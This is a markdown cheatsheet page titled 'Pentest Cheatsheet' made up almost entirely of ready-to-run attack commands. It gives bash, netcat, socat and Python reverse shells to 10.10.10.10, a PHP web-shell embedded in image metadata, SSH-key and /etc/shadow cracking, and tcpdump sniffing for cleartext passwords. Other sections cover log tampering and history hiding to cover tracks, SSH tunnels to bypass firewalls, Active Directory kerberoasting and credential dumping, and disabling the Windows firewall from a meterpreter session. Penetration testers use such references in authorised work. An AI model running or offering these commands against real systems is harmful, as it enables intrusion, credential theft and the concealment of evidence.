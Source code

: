 ```yaml
---
layout: article
title: Pentest Cheatsheet
aside:
  toc: true
---
```


## PENTEST CHEATSHEET
### Linux

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Find readable files with following extensions
~~~
find / -readable 2>/dev/null | egrep '(\.key$|\.pub$|\.bak$|\.crt$|\.ca$|^id_rsa)'
~~~

Bash reverse shell
~~~
bash -i >& /dev/tcp/10.10.10.10/444 0>&1
~~~

Netcat reverse shell
~~~
nc -e /bin/bash 10.10.10.10 444
nc -e /bin.sh 10.10.10.10 444
~~~

Socat reverse shell
~~~
socat file:`tty`,raw,echo=0 tcp-listen:444 #listener
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:444 #payload
~~~

Python reverse shell
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
export TERM=xterm
~~~

Fix terminal
~~~
stty -a
stty cols rows
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~

Cracking SSH
~~~
ssh2john id_rsa > id_rsa.hash
john --wordlist=wordlist.txt id_rsa.hash
~~~

Cracking /etc/shadow
~~~
unshadow passwd.hashes shadow.hashes > unshadowed_passwords.txt
john --wordlist=wordlist.txt passwords.txt
~~~

WFUZZ
~~~
wfuzz  -w /usr/share/wordlists/dirb/common.txt --hc 404,500 -u http://10.10.10.168:8080/
~~~

### Hiding tracks

Hiding bash history
~~~
unset HISTFILE
~~~

Commit 'suicide' when exiting shell
~~~
kill -9 $$
~~~

Hide commands
~~~
exec -a syslogd <command here>
~~~

Hide from /var/log/utmp, `w`, `who`, `.profile`, `.bash_profile`, `known_hosts`.
~~~
ssh -o UserKnownHostsFile=/dev/null -T user@host.org "bash -i"
~~~

SSH tunnel out
~~~
# bypass local firewalls or IP filtering
# connect to localhost:31337 and get connected to 1.2.4.3:80 appearing as user@host.org
ssh -g -L31337:1.2.3.4:80 user@host.org
~~~

SSH tunnel in
~~~
# access private machine
# connect to host.org:31338 get forwarded to 10.10.10.10:80 via localhost
ssh -o ExitOnForwardFailure=yes -g -R31338:10.10.10.10:80 user@host.org
~~~

SSH socks4/5 IN
~~~
# reverse dynamic forwarding
# configure host.org:1080 as SOCKS4/5 proxy and connect to any internal address/port where the system SSH was executed from has access to
ssh -R 1080 user@host.org
~~~

Monitor new TCP connections
~~~
tcpdump -n "tcp[tcpflags] == tcp-syn"
~~~

Other TCPDUMP
~~~
tcpdump -i eth0 'port 80'
tcpdump -i eth0 [udp | proto 17]
tcpdump -vv -x -X -s 1500 -i eth0 'port 80'
tcpdump -i eth0 host 10.10.10.10
tcpdump -i eth0 dst 10.10.10.10
tcpdump -i eth0 -n icmp
tcpdump dst port 123
tcpdump port http or port ftp or port smtp or port imap or port pop3 or port telnet -l -A | egrep -i -B5 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user '
~~~

Clear logfile
~~~
cd /dev/shm
grep -v '10\.10\.10\.10' /var/log/auth.log >a.log; cat a.log >/var/log/auth.log; rm -f a.log
~~~

### Windows

SMB
~~~
smbclient -L //10.10.10.10 #list shares
smbclient -U ''
smbmap -H 10.10.10.10 #list shares
smbmap -R [share] -H 10.10.10.10 #list contents of share
smbmap -d domain -u user -p password -H 10.10.10.10 #login with user
crackmapexec smb 10.10.10.10 --shares -u '' -p ''
~~~

GPP groups.xml
~~~
gpp-decrypt hash
~~~

Active Directory: impacket
~~~
GetADUsers.py -all domain/user -dc-ip 10.10.10.10
GetUserSPN.py -request[-user] [user] -dc-ip 10.10.10.10 domain/user #kerberoast
~~~

Active Directory
~~~
rpcclient 10.10.10.10
rpcclient 10.10.10.10 -U ''
enumdomusers
~~~

Kerberos
~~~
kerbrute userenum --dc 10.10.10.10 -d domain -o outfile.out users.lst
~~~

Create session with credentials for remote access only
~~~
runas /netonly /user:domain\username cmd
~~~

Shell via SMB: psexec.py
~~~
psexec.py domain/user@10.10.10.10
~~~

Metasploit windows meterpreter session
~~~
execute -f cmd.exe -c -H
shell
netsh firewall show opmode
netsh advfirewall set allprofiles state off
getsystem
~~~


~~~
Get-DomainUser -LDAPFilter "(userpassword=*)" | Measure-Object | Select-Object Count
Get-DomainUser -LDAPFilter "(userpassword=*)" -Properties samaccountname,userpassword | % { [pscustomobject]@{samaccountname=$_.samaccountname; userpassword=[System.Text.Encoding]::ASCII.GetString($_.userpassword)} }
~~~